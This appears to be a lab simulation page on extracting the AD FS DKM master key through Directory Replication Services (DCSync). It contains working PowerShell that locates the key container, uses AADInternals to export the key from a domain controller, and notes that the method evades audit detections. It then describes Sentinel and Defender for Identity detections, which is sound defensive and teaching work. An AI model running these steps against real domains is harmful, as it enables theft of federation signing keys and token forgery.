





Export AD FS DKM Master Key via Directory Replication Services
Contents
Export AD FS DKM Master Key via Directory Replication Services¶
Even though a threat actor might have been able to extract AD FS certificates from AD FS configuration settings, they still would need to be decrypted. AD FS certificates are encrypted using Distributed Key Manager (DKM) APIs and the DKM master key used to decrypt them is stored in the domain controller. When the primary AD FS farm is configured, the AD FS DKM container is created in the domain controller and the DKM master key is stored as an attribute of an AD contact object located inside of the container.
The path of the AD FS DKM container in the domain controller might vary, but it can be obtained from the AD FS configuration settings. After getting the AD path to the container, a threat actor can directly access the AD contact object and read the AD FS DKM master key value. One way to to indirectly access and retrieve the DKM master key can be via Active Directory Replication services (DRS) and retrieve the AD object. This approach bypasses detections that rely on audit rules monitoring for any direct access attempt to the AD object. However, this approach requires the user to have the right elevated privileges to perform directory replication actions in a domain.
Table of Contens¶
Preconditions¶
Integrity level: medium
Authorization:
Resource: AD FS Database
Identity:
AD FS Service Account
Local Administrator
Resource: AD FS DKM Container
Identity:
AD FS Service Account
AD Domain Administrator
Domain Controller:
Services:
Lightweight Directory Access Protocol (LDAP)
Network:
Port: 389
Input:
AD FS Configuration Settings
Table of Contents¶
Preconditions¶
Integrity level: medium
Authorization:
Resource: Domain Controller
Identity:
AD Domain Administrator
Domain Controller
Services:
Active Directory Replication
Input:
AD FS Configuration Settings
Simulation Steps¶
Get Path of AD FS DKM container¶
The AD FS DKM key value is stored in the ThumbnailPhoto attribute of an AD contact object in the AD FS DKM container. Therefore, we first need to get the path of the AD FS DKM container in the AD domain controller. That information can be retrieved from the AD FS configuration settings.
[xml]$xml=$settings
$group = $xml.ServiceSettingsData.PolicyStore.DkmSettings.Group
$container = $xml.ServiceSettingsData.PolicyStore.DkmSettings.ContainerName
$parent = $xml.ServiceSettingsData.PolicyStore.DkmSettings.ParentContainerDn
$base = "LDAP://CN=$group,$container,$parent"
$base

Retrieve AD Contact Object via Directory Replication Services¶
Active Directory Replication Services with AADInternals
Access a the domain-joined endpoint (
WORKSTATION6) where you authenticated previously as a domain administrator to perform the DCSync technique.Open PowerShell as Administrator
Get the path of the AD FS DKM container and use it to obtain the
GUIDof the AD FS DKM contact object.
$ADSISearcher = [ADSISearcher]'(&(objectclass=contact)(!name=CryptoPolicy)(ThumbnailPhoto=*))'
$ADSISearcher.SearchRoot = [ADSI]"$base"
$results = $ADSISearcher.FindOne()
$AdfsContactObjectGuid = ([guid]($results.Properties).objectguid[0]).guid
$AdfsContactObjectGuid

On the same elevated PowerShell session, run the following commands to install AADInternals if it is not installed yet:
Install-Module –Name AADInternals -Force
Import-Module AADInternals
Export the AD FS DKM master key value via directory replication services.
$ObjectGuid = '9736f74f-fd37-4b02-80e8-8120a72ad6c2'
$DC = 'DC01.simulandlabs.com'
$cred = Get-Credential
$Key = Export-AADIntADFSEncryptionKey -Server $DC -Credentials $cred -ObjectGuid $ObjectGuid
[System.BitConverter]::ToString([byte[]]$key)

Detection¶
Detect the use of Directory Replication Services to Retrieve AD Contact Object¶
Azure Sentinel Detection Rules¶
Non-DC Active Directory Replication
The following access rights/permissions are needed for the replication request according to the domain functional level:
Control access right symbol |
Identifying GUID used in ACE |
|---|---|
DS-Replication-Get-Changes |
1131f6aa-9c07-11d1-f79f-00c04fc2dcd2 |
DS-Replication-Get-Changes-All |
1131f6ad-9c07-11d1-f79f-00c04fc2dcd2 |
DS-Replication-Get-Changes-In-Filtered-Set |
89e95b76-444d-4c62-991a-0facbeda640c |
We can see those GUID values in the Properties values of Windows Security events with ID 4662.

We can also join the Windows Security event 4662 with 4624 on the LogonId value to add authentication context to the replication activity and get the IP Address of the workstation that performed the action.

Use the following detection rule to explore this activity:
Microsoft Defender for Identity¶
Suspected DCSync attack (replication of directory services)
The Microsoft Defender for Identity sensor installed on the domain controller triggers an alert when this behavior occurs. MDI detects non-domain controllers using Directory Replication Services (DRS) to sync information from the domain controller. Something to keep an eye on is the number of replication requests in the alert information. It went up from 4 to 10. Remember that the same alert also shows up in MCAS.
Navigate to Microsoft 365 Security Center.
Go to
More Resourcesand click onAzure Advanced Threat Protection.

Output¶
AD FS DKM Master Key